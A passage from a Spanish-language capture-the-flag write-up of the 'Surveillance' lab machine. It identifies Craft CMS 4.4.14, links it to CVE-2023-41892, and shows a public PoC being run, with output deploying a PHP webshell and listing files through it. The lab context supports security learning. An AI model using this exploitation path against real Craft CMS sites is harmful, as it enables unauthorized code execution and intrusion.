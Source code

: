 Del resto, no parece tener otra cosa. Es una landing page.

## Intrusión

### www-data

Si vemos el footer de la página, hayaremos algo interesante

![CraftCMS](/assets/writeups/surveillance/2.png)

Está usando el gestor de contenido CraftCMS, que tiene una vulnerabilidad reciente con un CVSS de 10.0

> CVE-2023-41892:
> Craft CMS is a platform for creating digital experiences. This is a high-impact, low-complexity attack vector. Users running Craft installations before 4.4.15 are encouraged to update to at least that version to mitigate the issue. This issue has been fixed in Craft CMS 4.4.15.

Viendo el código fuente de la página podremos ver que la versión es la 4.4.14, la cual está en el rango de versiones vulnerables.

Hay varios PoCs por GitHub e incluso un módulo en Metasploit. Analizando el código de alguno de estos podremos ver que el exploit en cuestión consiste en una inicialización de objetos arbitraria en la cual el atacante no requiere de ningún tipo de privilegios, uno de los PoCs por ejemplo aprovecha esto para instanciar ImageMagick, explotarlo y dejar una archivo PHP malicioso en la carpeta donde reside el CMS. Muy similar a lo que hice en la máquina [Intentions](/posts/intentions)

Editando un poco y ejecutando uno de los PoCs, logramos dejar una shell PHP con la cual podemos ejecutar comandos.

```bash
❯ python craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> ls
cpresources
css
fonts
images
img
index.php
js
shell.php
web.config
```
